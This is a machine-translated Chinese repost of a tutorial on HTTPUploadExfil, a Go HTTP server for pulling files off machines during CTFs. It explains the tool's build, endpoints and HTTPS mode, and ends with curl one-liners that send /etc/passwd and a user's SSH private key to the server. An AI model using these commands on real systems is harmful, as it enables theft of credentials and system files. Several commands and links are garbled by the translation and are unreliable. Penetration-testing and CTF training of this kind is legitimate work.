


# HTTPUploadExfil:一个简单的 HTTP 服务器，用于在例如 CTFs 期间过滤文件/数据

> [https://kallinuxtremark . com/httpuploadexfile/](https://kalilinuxtutorials.com/httpuploadexfil/)

是一个用 Go 编写的(非常)简单的 HTTP 服务器，对于使用 HTTP 从机器上获取文件(和其他信息)非常有用。虽然有许多用例，但它应该用于**低风险进攻场景**(例如，CTFs)。

可以把这想象成`**python3 -m http.server**`，但是是从机器上获取数据，而不是在机器上。

显然，这是一种**非常响亮**而**有些受限**的数据泄露方式。然而，它非常方便，而且比使用 SMB 或 FTP 更容易。如果你正在寻找更优雅的东西，看看，例如，`**dnsteal**`或`**PyExfil**`。

**TL；博士**

*   使用`**go build**`构建工具。
*   在你的机器上运行`**./httpuploadexfil :1337 /home/kali/loot**`。
*   访问您需要从中提取数据的机器上的`**http://YOUR_IP:1337/**`。
*   在`**/home/kali/loot**`中找到您上传的文件。

如果需要 HTTPs，看下面的信息。

**建设和发展**

虽然有可用的二进制文件，但绝对建议**在自己的**上构建它。这样，您将拥有最新的版本，并且您也将确切地知道您正在运行什么。这个过程很简单:

只需在文件夹中运行`**go build**`，您应该会得到一个适用于您的平台的`**httpuploadexfil**`可执行文件。

如果您对工具进行了更改，请记住使用 **`go fmt main.go`进行格式化。**

**用法**

最常见的用例是在一台机器上运行服务器。现在，在*机器 B* 上，您使用浏览器访问上传表单，并选择要导出的文件。当然，正如您在下面看到的，这也可以通过使用`**curl**`来完成。

除了上传文件，您还可以使用简单的 GET 请求使用`**HTTPUploadExfil**`来过滤数据。如果一个请求被发送到`**\g**`端点，整个请求将被存储到磁盘。

因此，您可以使用请求的报头来过滤数据。使用 GET 参数(例如`**?data=...**`)是最简单的，但是还有其他选项。

默认情况下，`**HTTPUploadExfil**`将在端口 8080 上提供服务。所有文件都将被写入当前目录。

`**./httpuploadexfil**`

您还可以提供一些参数:

`**./httpuploadexfil :133**7 **/home/kali/loot**`

第一个参数是绑定地址，第二个参数是存储文件的文件夹。

该工具还会在端点`**/l**`下暴露 loot 目录中的文件。这可以作为将文件带到目标上的一种简单方法。

**终点**

web 服务器公开了四个端点供您使用:

*   `**/**` (GET)是上传表单。
*   `**/p**` (POST)从上传表单中获取数据。它需要一个填充了`**file**`字段的`**multipart/form-data**`请求。
*   `**/g**` (GET)将接受任何 GET 请求，并将完整的请求存储在服务器上。
*   `**/l**` (GET)将提供对指定文件夹中文件的访问(目录列表)。这是为了提供基本的`**python3 -m** **http.server**`功能。

**HTTPs 模式**

`**HTTPUploadExfil**`也可以在 HTTPs 模式下使用。为此，只需在二进制文件旁边放置一个`**HTTPUploadExfil.csr**`和`**HTTPUploadExfil.key**`文件。例如，这些可以如下生成:

**OpenSSL req-new-new key RSA:2048-nodes-key out httpuploadexfil . key-out httpuploadexfil . CSR
OpenSSL x509-req-days 365-in httpuploadexfil . CSR-sign key httpuploadexfil . key-out httpuploadexfil . CSR**

如果服务器看到一个`**HTTPUploadExfil.csr**`文件，它将尝试以 HTTPs 模式启动。要返回 HTTP，只需删除或重命名证书文件。

**炮弹**

使用`**Bash**`，我们可以使用 GET via 来导出数据，例如:

`**echo "data=`cat /etc/passwd`" | curl -d @- http://127.0.0.1:8080/g**`

当然，我们也可以使用`**cur**l`来导出文件:

`**curl -F file=@/home/kali/.ssh/id_rsa http://127.0.0.1:8080/p**`

[**Download**](https://github.com/IngoKl/HTTPUploadExfil)